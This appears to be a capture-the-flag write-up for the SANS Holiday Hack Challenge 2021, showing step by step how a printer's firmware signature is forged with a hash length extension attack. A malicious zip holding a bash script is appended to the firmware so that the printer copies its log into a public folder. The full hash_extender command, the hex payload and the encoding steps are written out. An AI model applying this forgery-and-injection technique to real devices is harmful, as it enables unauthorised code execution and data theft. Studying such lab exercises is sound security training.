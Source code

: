 # OBJECTIVE 7 - Printer exploitation #

## OBJECTIVE : ##
>Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective.

#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 7</summary>
  
>-	Files placed in `/app/lib/public/incoming` will be accessible under `https://printer.kringlecastle.com/incoming/`.
>-	[Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.
>-	When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down **Base64-encoded**.

</details>

#  

## PROCEDURE : ##

### 3. Getting Started ###
If that last objective is anything to go by, things will start getting a lot tougher now…
For this objective we are forwarded to a printer’s web interface.  Looking around for a possible point of entry, the first thing that sticks out to me is the **“Firmware Update”** page which allows us to download the current firmware and upload new firmware to the printer – this fits perfectly with one of the hints I got from Ruby Cyster, who also hinted that we should pick apart the firmware and that it might be base-64 encoded.

Once the firmware is downloaded and I have a look inside, I see that there is a block of unreadable text which makes up the actual “firmware” portion of the file, followed by a `signature` variable which appears to be some kind of hash, a `secret_length` variable with a value of `16` and an `algorithm` variable with a value of `SHA256`.

By copying the firmware portion on its own, pasting it into [Cyberchef](https://gchq.github.io/CyberChef/) and performing a base64 decode operation, I end up with unreadable text once again, but Cyberchef conveniently gives us a hint that this might actually be a zip file and by running an unzip operation I get an uncompressed `firmware.bin` file.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/1b220a4b-7f8a-44be-907b-18774d8485b3)

By running the file `firmware.bin` we discover that the file is an `ELF 64-bit LSB` pie executable.

Although it’s not included in the actual hints for this Objective, Ruby Cyster mentions that *“if you append multiple files of that type, the last one is processed”*.  So my plan of action at this stage is to try and write a new bin file with instructions to copy the contents of `/var/spool/printer.log` to `/app/lib/public/`, zip it and append it to the original firmware’s zip file, encode everything with base64 and figure out a way to deal with the signature.

So, I created a [simple bash script](Code/Printer_Exploit_Bash_Script.sh) that creates a directory `/app/lib/public/` (in case it doesn’t exist already) and copies `/var/spool/printer.log` to it.  I saved this file as `firmware.bin` and compressed it in a zip archive called `evil.zip`.

The printer is expecting a base64 encoded zip file with a `firmware.bin` file inside which it then executes.  So I needed to append the newly created `evil.zip` to the original `firmware.zip` to create a new zip file with a valid hash signature.  To do this I followed the hints and used the `hash_extender` tool.
```console
┌──(kali㉿kali)-[~/printer_hack]
└─$ hex evil.zip 
504b0304140000000800ce7a9653b1009938420000005b0000000c001c006669726d776172652e62696e55540900030489c361fb8fc36175780b000104e803000004e803000075cbc11180200c04c03f55e0f8f76a0274f0c69064825abf15b8ff5d17542ae699c6b533328a3b8415fe546103b5d9a0f6d43ce32d81e966020fea7dc426d67fcb07504b01021e03140000000800ce7a9653b1009938420000005b0000000c0018000000000001000000ed81000000006669726d776172652e62696e55540500030489c36175780b000104e803000004e8030000504b0506000000000100010052000000880000000000
```
```console
┌──(kali㉿kali)-[~/printer_hack]
└─$ ./hash_extender/hash_extender --file firmware.zip --secret 16 --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --append 504b0304140000000800ce7a9653b1009938420000005b0000000c001c006669726d776172652e62696e55540900030489c361fb8fc36175780b000104e803000004e803000075cbc11180200c04c03f55e0f8f76a0274f0c69064825abf15b8ff5d17542ae699c6b533328a3b8415fe546103b5d9a0f6d43ce32d81e966020fea7dc426d67fcb07504b01021e03140000000800ce7a9653b1009938420000005b0000000c0018000000000001000000ed81000000006669726d776172652e62696e55540500030489c36175780b000104e803000004e8030000504b0506000000000100010052000000880000000000 --append-format=hex  
```

The result of the `hash_extender` operation is an ASCII hex output which I could then use to create a new file and then convert it to binary which to create my  new malicious zip file:
```console
$ cat output_hex | xxd -r -p > output.zip
```

To check that everything is ok, I tried unzipping the new `output.zip` file and confirmed that I got a `firmware.bin` file with [my bash script payload](Code/Printer_Exploit_Bash_Script.sh) in it.

All that remains is to encode the zip file in base64 (making sure to use the `-w 0` switch to disable line-breaks) and to craft a new JSON file with the new base64 encoded “firmware” and signature generated by `hash_extender`.
```console
$ base64 -w 0 output.zip
```

I uploaded the new zip file and was happy to see that the firmware was *“successfully uploaded and validated”* and that the package was being *“executed in the background”*.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/c47d655c-69e6-4a70-a17a-a2fb5e296145)

Now, if my bash script worked, the printer should have placed a copy of `printer.log` in the publicly accessible directory `/app/lib/public/incoming`. And – sure enough - visiting `https://printer.kringlecastle.com/incoming/printer.log` in my browser gives me the contents of the `printer.log` file!
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/1d117bd9-9bf9-4f9c-b4ee-8d4060e78a14)




